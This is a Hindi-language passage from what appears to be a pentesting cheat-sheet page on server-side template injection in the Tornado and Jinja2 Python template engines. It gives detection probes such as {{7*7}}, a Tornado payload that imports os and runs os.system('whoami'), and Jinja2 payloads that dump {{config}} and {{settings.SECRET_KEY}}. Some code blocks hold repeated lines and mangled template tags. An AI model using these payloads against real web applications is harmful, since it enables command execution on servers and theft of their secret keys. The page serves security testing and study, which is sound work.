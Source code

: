 **संदर्भित कमांड निष्पादन को बायपास करने** के लिए पायथन में ट्रिक्स सीखने के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### टॉरनेडो (पायथन)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Error`
* `{{7*'7'}} = 7777777`
```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}






{{os.system('whoami')}}
{{os.system('whoami')}}
```
**अधिक जानकारी**

* [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

### Jinja2 (Python)

[आधिकारिक वेबसाइट](http://jinja.pocoo.org)

> Jinja2 Python के लिए एक पूर्ण विशेषताओं वाला टेम्पलेट इंजन है। इसमें पूर्ण यूनिकोड समर्थन है, एक वैकल्पिक एकीकृत सैंडबॉक्स कार्यान्वयन वातावरण है, व्यापक रूप से उपयोग किया जाता है और BSD लाइसेंस प्राप्त है।

* `{{7*7}} = Error`
* `${7*7} = ${7*7}`
* `{{foobar}} Nothing`
* `{{4*4}}[[5*5]]`
* `{{7*'7'}} = 7777777`
* `{{config}}`
* `{{config.items()}}`
* `{{settings.SECRET_KEY}}`
* `{{settings}}`
* `<div data-gb-custom-block data-tag="debug"></div>`
```python
{% raw %}
{% debug %}
{% endraw %}






{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```